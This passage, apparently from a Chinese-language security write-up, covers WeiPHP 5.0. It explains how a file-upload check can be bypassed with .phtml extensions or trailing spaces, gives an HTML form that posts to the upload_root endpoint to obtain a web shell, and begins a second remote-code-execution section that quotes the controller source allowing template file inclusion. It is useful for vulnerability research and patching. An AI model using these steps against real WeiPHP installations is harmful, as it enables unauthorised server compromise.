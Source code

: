 虽然他做了如上的检测，但是后缀只 ban 了 php，有的可以使用 phtml 这种其它后缀绕过，一些版本可以用末尾加空格绕过，而且上传成功的 json 字符串里面也包含路径信息

构造一个 public/index.php/home/File/upload\_root post 传输数据的表单 就可以直接 shell 了

```bash
<html>
<body>
<form action="http://127.0.0.1/public/index.php/home/File/upload_root" method="post"
enctype="multipart/form-data">
<input type="file" name="download" id="file" />  
<br />
<input type="submit" name="submit" value="Submit" />
</form>
</body>
</html>
```

### 0x03 Weiphp5.0 前台 rce v2.0

这个 rce 也是一直在网上找不到的 关键点在于 在 application/common/controller/Base.php/中的 common\_add 方法和 common\_list 方法，两个方法都有一个共同点 就是$templateFile 都可通过参数绑定的方式来进行文件包含渲染

```bash
public function common_lists($model = null, $templateFile = '', $order = 'id desc')
    {
        // 获取模型信息
        is_array($model) || $model = $this->getModel($model);
        $list_data = $this->_get_model_list($model, $order);
        $this->assign($list_data);

        empty($templateFile) && $templateFile = 'lists';

        return $this->fetch($templateFile);
    }
```

```bash
public function common_add($model = null, $templateFile = '', $post_data = [])
    {
        is_array($model) || $model = $this->getModel($model);
        if (request()->isPost()) {
            try {
                $Model = D($model['name']);
            } catch (\Exception $e) {
                if (strpos($e->getMessage(), 'not exists')) {
                    $Model = M($model['name']);
                } else {
                    $this->error('找不到操作模型');
                }
            }
            // 获取模型的字段信息
            $data = empty($post_data) ? input('post.') : $post_data;
            $data = $this->checkData($data, $model);
            // dump($data);exit;
            $id = $Model->insertGetId($data);
            if ($id) {
                $this->_saveKeyword($model, $id);

                // 清空缓存
                method_exists($Model, 'clearCache') && $Model->clearCache($id, 'add');

                $this->success('添加' . $model['title'] . '成功！', U('lists?model=' . $model['name'], $this->get_param));
            } else {
                $this->error($Model->getError());
            }
        } else {
```